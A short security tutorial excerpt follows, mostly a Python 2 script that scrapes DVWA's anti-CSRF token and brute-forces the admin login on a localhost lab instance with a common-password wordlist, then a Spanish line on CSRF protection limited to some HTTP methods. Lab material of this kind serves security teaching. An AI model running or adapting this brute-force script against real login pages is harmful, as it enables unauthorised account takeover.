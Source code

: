 #### Bypass CSRF Token with python

```python
#The code will extract the CSRF token from a page and initiate bruteforcing using common wordlist
import requests
from bs4 import BeautifulSoup

#Login bruteforcing using python
def brute_me(pwd,csrf_token,cookies):
    url_brute='http://localhost:8181/DVWA-master/vulnerabilities/brute/?username=admin&password='+pwd+'&Login=Login&user_token='+csrf_token
    r=requests.get(url=url_brute,cookies=cookies)
    if "password protected area" in r.text:
        return True

def generate_token():
    with open(r'C:\gitbased\SecLists\Passwords\Common-Credentials\10-million-password-list-top-10000.txt') as fh:
            for line in fh:
                url='http://localhost:8181/DVWA-master/vulnerabilities/brute/index.php'
                headers = {
                    'accept': 'text/html,application/xhtml+xml,application/xml',
                    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36',
                    'Host': 'localhost:8181'
                }
                cookies={'security':'high', 'security_level':'1', 'PHPSESSID':'m5qg9v3rjvrihb2sahdcab9a71'}
                r=requests.get(url=url,headers=headers,cookies=cookies)

                page_source = r.text

                soup = BeautifulSoup(page_source, "html.parser")

                csrf_token = soup.findAll(attrs={"name": "user_token"})[0].get('value')
                print csrf_token
                s=brute_me(str(line.strip()),csrf_token,cookies)
                if(s):
                    print "password Found" ,line
                    break




generate_token()
```

#### CSRF where token validation depends on request method

Puede darse el caso de que un formulario tengo una proteccion de token anti CSRF, pero este configurada bajo algunos metodos HTTP solamente.
